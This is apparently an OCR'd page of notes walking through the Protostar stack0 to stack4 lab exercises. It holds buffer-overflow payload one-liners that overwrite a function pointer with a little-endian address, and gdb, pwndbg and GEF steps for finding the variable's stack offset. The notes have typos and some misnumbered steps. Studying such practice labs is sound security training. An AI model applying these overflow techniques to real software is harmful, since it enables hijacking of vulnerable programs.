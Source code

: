 2. Take the last 4 bytes of the address: \x00\x40\x05\x77
3. Invert them because x86_64 is in little endian: \x77\x05\x40\x00'
4. `python -c "print 'A' * 72 + '\x77\x05\x40\x00'" | ./stack3`
                          ^     ^the address backwards cause little endian
                          |
                          may have to play with this number

    Output:
    ```
    calling function pointer, jumping to 0x00400577
    code flow successfully changed
    ```

[Detailed]: Step-by-Step
1. `chmod +x stack3`
2. `gdb stack3`
3. gdb> break main
4. gdb> run
5. gdb> next 13
             ^this number may be different
             You want to step over the gets function so you can give input

5. Dump the whole main method into assembly
   gdb> u main 15
   gef> cs main 15

6. Observe this assembly line
    `mov  qword ptr [rbp - 8], 0`
                       ^look at this
                        this is the location of the variabe `fp`
                        

   In a decompiler (Ghidra/Cutter), you'll see that this assembly line
   points to the line closest to `fp = 0;`

   In Ghidra it's `local_10 = (code *) 0x0;`

7. pwndbg> telescope $rbp-8 1
   gef> dereference $rbp-8 1

   should get something like (pwndbg):
   `00:0000│   0x7fffffffde38 ◂— 0x0`
               ^at this address, the a value is 0


8. > next 13
          ^this number may be different
          You want to step over the gets function so you can give input

9. On separate terminal:
    `python -c "print 'A' * 72 + '\x77\x05\x40\x00'"`
                            ^if this doesn't work at end,
                             play with this number

10. Copy the output of step 5 and paste into GDB and press ENTER

11. Next assembly instruction should be:
    	`cmp    qword ptr [rbp - 8], 0`
                           ^look at this
                            cthis is the location of the variabe `fp`


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Shellcode]: http://shell-storm.org/shellcode/